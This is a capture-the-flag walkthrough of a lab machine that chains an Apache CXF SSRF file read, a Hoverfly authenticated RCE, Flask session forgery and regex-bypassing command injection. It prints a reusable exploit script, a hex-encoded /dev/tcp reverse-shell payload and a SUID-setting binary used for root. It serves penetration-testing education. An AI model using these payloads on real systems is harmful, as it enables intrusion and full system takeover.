






Exploitation Summary
The attack began with an Apache CXF 3.2.14 SOAP service exposed on port 8080. By exploiting
CVE-2022-46364, a Server-Side Request Forgery vulnerability in CXF's XOP
include handling, arbitrary files from the target filesystem could be read by embedding
file:/// URIs inside MTOM multipart SOAP requests. This allowed reading
/proc/self/environ, /proc/<pid>/cmdline, and systemd unit
files, which together revealed credentials for a Hoverfly instance running on port 8888.
Hoverfly version 1.11.3 is vulnerable to an authenticated RCE (GHSA-r4h8-hfp2-ggmf). Using the
recovered credentials, a reverse shell was obtained as user dev_ryan. With a
foothold on the machine, a Flask secret key was found in /etc/syswatch.env,
allowing the forgery of a valid session cookie to access an internal SysWatch web interface
running on localhost:7777.
That interface contained a service-status endpoint vulnerable to command injection, protected by
a regex that blocked uppercase characters — preventing direct use of base64. The
restriction was bypassed using xxd to hex-encode a reverse shell payload, gaining
access as the syswatch user.
Privilege escalation to root exploited a path hijacking opportunity: /usr/bin/bash
was world-writable, and a sudo-allowed script called bash without an
absolute path. By replacing /usr/bin/bash with a compiled C binary that sets the
SUID bit on /bin/bash before exec'ing the real shell, triggering the script via
sudo resulted in a SUID bash, granting a root shell.
Techniques/Exploits: Apache CXF CVE-2022-46364 SSRF / arbitrary file read,
Hoverfly authenticated RCE (GHSA-r4h8-hfp2-ggmf), Flask session cookie forgery with
flask-unsign, command injection with xxd hex bypass, bash path
hijacking privilege escalation.
Initial Reconnaissance
Starting with an nmap scan to identify open ports and running services:
21/tcp open ftp vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x 2 ftp ftp 4096 Sep 22 2025 pub
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.15
80/tcp open http Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://devarea.htb/
8080/tcp open http Jetty 9.4.27.v20200227
|_http-title: Error 404 Not Found
8500/tcp open http Golang net/http server
8888/tcp open http Golang net/http server
|_http-title: Hoverfly DashboardSeveral interesting services are present. Port 80 redirects to devarea.htb (added to
/etc/hosts), which turns out to be a developer recruitment landing page with nothing
obviously exploitable. The more interesting services are:
- Port 8080: Eclipse Jetty 9.4.27 — old version, potentially vulnerable
- Port 8500: An HTTP proxy
- Port 8888: Hoverfly dashboard — an API simulation service
- Port 21: FTP with anonymous login allowed
Proxy on Port 8500
Port 8500 appears to be an HTTP proxy. Attempting to use it triggers a 407 authentication challenge:
curl -x http://devarea.htb:8500 http://10.10.14.129
407 Proxy authentication requiredThe Proxy-Authenticate: Basic realm=hoverfly response header reveals it's tied to the
Hoverfly service. If credentials for Hoverfly are found, this proxy could serve as a useful
SSRF pivot.

Jetty on Port 8080
The Jetty server returns a 404 on the root, but the version is notable: 9.4.27.v20200227. Given that date, it's likely outdated.

FTP Enumeration — employee-service.jar
Logging into the FTP server as anonymous, a file is available inside the pub directory:
-rw-r--r-- 1 ftp ftp 6445030 Sep 22 2025 employee-service.jarExtracting it with unzip reveals compiled Java classes under the package
htb/devarea. Using the VSCode "Extension Pack for Java" to decompile them, four classes
are visible:
// EmployeeServiceImpl.java
package htb.devarea;
public class EmployeeServiceImpl implements EmployeeService {
public String submitReport(Report report) {
String greeting = report.isConfidential()
? "Report marked confidential. Thank you, " + report.getEmployeeName()
: "Report received from " + report.getEmployeeName();
return greeting + ". Department: " + report.getDepartment()
+ ". Content: " + report.getContent();
}
}// Report.java
package htb.devarea;
public class Report {
private String employeeName;
private String department;
private String content;
private boolean confidential;
// getters, setters and toString omitted for brevity
}// EmployeeService.java
package htb.devarea;
import javax.jws.WebService;
@WebService(name = "EmployeeService", targetNamespace = "http://devarea.htb/")
public interface EmployeeService {
String submitReport(Report var1);
}// ServerStarter.java
package htb.devarea;
import org.apache.cxf.jaxws.JaxWsServerFactoryBean;
public class ServerStarter {
public static void main(String[] args) {
JaxWsServerFactoryBean factory = new JaxWsServerFactoryBean();
factory.setServiceClass(EmployeeService.class);
factory.setServiceBean(new EmployeeServiceImpl());
factory.setAddress("http://0.0.0.0:8080/employeeservice");
factory.create();
}
}This confirms there's a SOAP web service running at
http://devarea.htb:8080/employeeservice, built using Apache CXF. The
WSDL is accessible at
http://devarea.htb:8080/employeeservice?wsdl.
A test request confirms the service works as expected:
curl -s -X POST http://devarea.htb:8080/employeeservice \
-H "Content-Type: text/xml;charset=UTF-8" \
-H "SOAPAction: ''" \
-d '<?xml version="1.0" encoding="UTF-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
xmlns:tns="http://devarea.htb/">
<soapenv:Body>
<tns:submitReport>
<arg0>
<confidential>false</confidential>
<content>test</content>
<department>IT</department>
<employeeName>alice</employeeName>
</arg0>
</tns:submitReport>
</soapenv:Body>
</soapenv:Envelope>'<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<ns2:submitReportResponse xmlns:ns2="http://devarea.htb/">
<return>Report received from alice. Department: IT. Content: test</return>
</ns2:submitReportResponse>
</soap:Body>
</soap:Envelope>Initial attack attempts (XXE, SSTI, Log4Shell payloads) don't produce results. The next step is to
check the dependency versions in pom.xml inside the JAR:
<cxf.version>3.2.14</cxf.version>Apache CXF 3.2.14 is from 2020 — quite old. Checking the vulnerability list at CVEDetails reveals several SSRF vulnerabilities applicable to this version.
Apache CXF SSRF — CVE-2022-46364 (Arbitrary File Read)
CVE-2022-46364 abuses CXF's handling of MTOM (Message Transmission Optimization Mechanism) multipart
SOAP messages. By embedding an XOP Include element with a file:/// URI as
the href, the server fetches the local file and includes its base64-encoded content in
the SOAP response. CVE-2024-28752 is another applicable vulnerability with a similar approach — both
were tested and confirmed working against this target.
curl -s -X POST http://devarea.htb:8080/employeeservice \
-H 'Content-Type: multipart/related; type="application/xop+xml"; start="<root.message@cxf.apache.org>"; start-info="text/xml"' \
-H "SOAPAction: ''" \
-d '--MIMEBoundary
Content-Type: application/xop+xml; charset=UTF-8; type="text/xml"
Content-Transfer-Encoding: 8bit
Content-ID: <root.message@cxf.apache.org>
<?xml version="1.0" encoding="UTF-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
xmlns:tns="http://devarea.htb/">
<soapenv:Body>
<tns:submitReport>
<arg0>
<confidential>false</confidential>
<content>test</content>
<department>IT</department>
<employeeName>
<inc:Include href="file:///etc/hostname" xmlns:inc="http://www.w3.org/2004/08/xop/include"/>
</employeeName>
</arg0>
</tns:submitReport>
</soapenv:Body>
</soapenv:Envelope>
--MIMEBoundary--'...Report received from ZGV2YXJlYQo=. Department: IT. Content: test...echo "ZGV2YXJlYQo=" | base64 -d
devareaFile read confirmed. To make exploitation easier, a wrapper bash script automates the request and decodes the base64 response:
#!/bin/bash
FILE=${1:-/etc/hostname}
TARGET="http://devarea.htb:8080/employeeservice"
RESPONSE=$(curl -s -X POST "$TARGET" \
-H 'Content-Type: multipart/related; type="application/xop+xml"; start="<root.message@cxf.apache.org>"; start-info="text/xml"' \
-H "SOAPAction: ''" \
-d "--MIMEBoundary
Content-Type: application/xop+xml; charset=UTF-8; type=\"text/xml\"
Content-Transfer-Encoding: 8bit
Content-ID: <root.message@cxf.apache.org>
<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<soapenv:Envelope xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"
xmlns:tns=\"http://devarea.htb/\">
<soapenv:Body>
<tns:submitReport>
<arg0>
<confidential>false</confidential>
<content>test</content>
<department>IT</department>
<employeeName>
<inc:Include href=\"file://${FILE}\" xmlns:inc=\"http://www.w3.org/2004/08/xop/include\"/>
</employeeName>
</arg0>
</tns:submitReport>
</soapenv:Body>
</soapenv:Envelope>
--MIMEBoundary--")
B64=$(echo "$RESPONSE" | grep -oP '(?<=from )[A-Za-z0-9+/=]+(?=\.)')
if [[ -z "$B64" ]]; then
echo "[-] No base64 found. Raw response:"
echo "$RESPONSE"
exit 1
fi
echo "[+] Reading: $FILE"
echo "---"
echo "$B64" | base64 -dChecking /etc/passwd to identify local users:
./xploiter.sh /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
dev_ryan:x:1001:1001::/home/dev_ryan:/bin/bashThe user dev_ryan stands out. Reading /proc/self/environ reveals the
process environment:
./xploiter.sh /proc/self/environ
[+] Reading: /proc/self/environ
---
LANG=en_US.UTF-8PATH=...USER=dev_ryanLOGNAME=dev_ryanHOME=/home/dev_ryan
SHELL=/bin/bash...JAVA_HOME=/usr/lib/jvm/java-8-openjdk-amd64The Java service is running as dev_ryan. Brute-forcing PIDs to read
/proc/<pid>/cmdline uncovers the Hoverfly process arguments, which include
credentials passed as plaintext flags:
for i in $(seq 1 12000); do echo "=== PID $i ==="; ./xploiter.sh /proc/$i/cmdline; done[+] Reading: /proc/1487/cmdline
---
/opt/HoverFly/hoverfly-add-usernameadmin-passwordO7IJ27MyyXiU-listen-on-host0.0.0.0Credentials found: admin:O7IJ27MyyXiU. These can also be confirmed by reading the
systemd unit file directly, which presents the information even more cleanly:
./xploiter.sh /etc/systemd/system/hoverfly.service[Unit]
Description=HoverFly service
After=network.target
[Service]
User=dev_ryan
Group=dev_ryan
WorkingDirectory=/opt/HoverFly
ExecStart=/opt/HoverFly/hoverfly -add -username admin -password O7IJ27MyyXiU -listen-on-host 0.0.0.0
Restart=on-failureHoverfly RCE — GHSA-r4h8-hfp2-ggmf
Accessing the Hoverfly dashboard on port 8888 with the found credentials reveals version 1.11.3. The Hoverfly security advisories at https://github.com/SpectoLabs/hoverfly/security list an authenticated RCE vulnerability affecting versions up to and including 1.11.3: GHSA-r4h8-hfp2-ggmf.
Using Burp Suite to send the exploit request, RCE is confirmed — the output at the end of the
response body shows STDOUT:\ndev_ryan:

With RCE confirmed, a reverse shell payload is sent through the same endpoint, landing a shell as
dev_ryan and allowing retrieval of the user flag.
Lateral Movement — SysWatch Web Interface
Checking sudo privileges for dev_ryan:
sudo -lUser dev_ryan may run the following commands on devarea:
(root) NOPASSWD: /opt/syswatch/syswatch.sh, !/opt/syswatch/syswatch.sh web-stop, !/opt/syswatch/syswatch.sh web-restartdev_ryan can run syswatch.sh as root, but the web-stop and
web-restart subcommands are explicitly denied. The available commands include
web-status, plugin, logs, and others. Running
web-status shows a Python web app running on port 7777:
sudo /opt/syswatch/syswatch.sh web-status● syswatch-web.service - SysWatch Web GUI
Active: active (running)
Main PID: 1462 (python)
CGroup: /system.slice/syswatch-web.service
└─1462 /opt/syswatch/venv/bin/python /opt/syswatch/syswatch_gui/app.pyThis service is listening only on localhost. To access it, the SSH public key is added to
~/.ssh/authorized_keys and the port is forwarded:
ssh -L 7777:127.0.0.1:7777 dev_ryan@devarea.htbThe systemd unit file for this service reveals an important environment file:
cat /etc/systemd/system/syswatch-web.service[Service]
User=syswatch
EnvironmentFile=/etc/syswatch.env
ExecStart=/opt/syswatch/venv/bin/python /opt/syswatch/syswatch_gui/app.pycat /etc/syswatch.envSYSWATCH_SECRET_KEY=f3ac48a6006a13a37ab8da0ab0f2a3200d8b3640431efe440788beaefa236725
SYSWATCH_ADMIN_PASSWORD=SyswatchAdmin2026
SYSWATCH_LOG_DIR=/opt/syswatch/logs
SYSWATCH_DB_PATH=/opt/syswatch/syswatch_gui/syswatch.db
SYSWATCH_PLUGIN_DIR=/opt/syswatch/plugins
SYSWATCH_BACKUP_DIR=/opt/syswatch/backup
SYSWATCH_VERSION=1.0.0The SYSWATCH_ADMIN_PASSWORD and credentials from a SQLite database found in a
syswatch-v1.zip archive in dev_ryan's home directory were tested against
the login form at localhost:7777 — neither works.
However, the Flask secret key is available. Since the source code (found in the zip
archive) shows that only a valid session cookie containing a user_id field is needed to
authenticate, a cookie can be forged using flask-unsign:
flask-unsign --sign --cookie "{'username': 'admin', 'user_id': 1}" \
--secret f3ac48a6006a13a37ab8da0ab0f2a3200d8b3640431efe440788beaefa236725eyJ1c2VybmFtZSI6ImFkbWluIiwidXNlcl9pZCI6MX0.ack8Fw.l_NXlrXPNNYq8-uRyP6zYR2fueIInjecting this cookie in the browser grants access to the SysWatch dashboard:

Command Injection — xxd Hex Bypass
The most interesting endpoint in the SysWatch interface is service-status, which
appears to run systemctl status on a user-supplied service name:

Reviewing the source code from the zip archive reveals the backend implementation:
SAFE_SERVICE = re.compile(r"^[^;/\&.<>\rA-Z]*$")
if not service or not SAFE_SERVICE.match(service):
error = "Invalid service name"
else:
try:
res = subprocess.run(
[f"systemctl status --no-pager {service}"],
shell=True, capture_output=True, text=True, timeout=10
)The service parameter is passed unsanitized into a shell command. The regex blocks
semicolons, slashes, ampersands, dots, angle brackets, carriage returns, and
uppercase letters. The frontend adds extra client-side checks (e.g., blocking
$()), but those are bypassable through Burp Suite — the backend has no such
restriction.
The key constraint is that base64 contains uppercase letters (B,
A...) and is therefore blocked. The classic technique of base64-encoding a payload
won't work. However, xxd provides an equivalent path using only lowercase hex:
# Encode a command to hex
echo -n "id" | xxd -p
6964
# Decode hex back to command
echo -n "6964" | xxd -p -r
idUsing this technique, the reverse shell command is hex-encoded and injected via Burp Suite:

The full payload, URL-encoded for the POST body:
service=$(echo%20"62617368202d63202262617368202d69203e26202f6465762f7463702f31302e31302e31342e3132392f34343320303e263122"|xxd%20-p%20-r|bash)This decodes and executes: bash -c "bash -i >& /dev/tcp/10.10.14.129/443 0>&1"
A shell is obtained as user syswatch. This user has access to
/opt/syswatch but write access is limited to /opt/syswatch/logs and
/opt/syswatch/backup. There's nothing further to exploit from this user directly, so
the focus shifts to privilege escalation.
Privilege Escalation — Bash Path Hijacking
Looking at /opt/syswatch/syswatch.sh, lines 95 and 97 call bash without an
absolute path:
if [ "$run_root" -eq 1 ]; then
bash "$fullpath" "$@"
else
runuser -u "$SYSWATCH_USER" -- bash "$fullpath" "$@"
fiThe sudo secure path is:
secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin/bin is at the end of the path. If any earlier directory contains a writable
bash binary, it would be resolved first when sudo calls the script.
Checking /usr/bin/bash:
ls -lah /usr/bin/bash
-rwxrwxrwx 1 root root 1.4M Mar 31 2024 /usr/bin/bash/usr/bin/bash is world-writable. Since /usr/bin comes before /bin
in the secure path, any call to bash from within the sudo-executed script will resolve to
/usr/bin/bash first. The plan is to replace it with a custom binary that sets the SUID
bit on /bin/bash before handing off to the real shell.
Overwriting the currently running shell binary from within itself causes a "Text file busy" error.
The solution is to switch to sh first, then kill any remaining bash
instances:
exec /bin/sh
killall -9 bashThe -9 flag sends SIGKILL, which cannot be caught or ignored by the target
process. Next, a small C program is compiled on the attacker machine. It sets the SUID bit on
/bin/bash and then exec's a real bash copy (placed at /tmp/bash_real) to
avoid infinite recursion:
#include <unistd.h>
#include <sys/stat.h>
int main(int argc, char *argv[], char *envp[]) {
chmod("/bin/bash", 04755);
execve("/tmp/bash_real", argv, envp);
return 0;
}gcc -o bashed xploit.cTransfer the binary to the victim machine, make a backup of the real bash, then overwrite
/usr/bin/bash:
cp /bin/bash /tmp/bash_real
cp bashed /usr/bin/bashNow trigger the payload by running the allowed sudo command with a valid plugin argument:
sudo /opt/syswatch/syswatch.sh plugin disk_monitor.shThe script calls bash as root, which resolves to the malicious
/usr/bin/bash, which in turn sets the SUID bit on /bin/bash:
ls -lah /bin/bash
-rwsr-xr-x 1 root root 16K Mar 30 14:34 /bin/bashFinally, a privileged shell is obtained with bash -p, which preserves the effective UID,
giving root access and the root flag:
bash -p
bash-5.2# id
uid=1001(dev_ryan) gid=1001(dev_ryan) euid=0(root) groups=1001(dev_ryan)